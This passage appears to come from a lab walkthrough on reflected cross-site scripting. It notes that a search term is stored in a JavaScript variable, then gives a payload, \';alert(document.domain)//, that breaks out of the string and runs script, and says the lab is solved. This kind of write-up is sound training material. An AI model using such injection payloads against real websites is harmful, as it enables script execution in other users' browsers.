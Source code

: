 Here it store search string in variable and then search the item

**Step3:**

Now try this payload to

`\';alert(document.domain)//`

So the searchTerms='\';alert(document.domain)//'

<img src="images/image46.png" alt="third" width="500">

And the lab is solved

<img src="images/image47.png" alt="third" width="500">

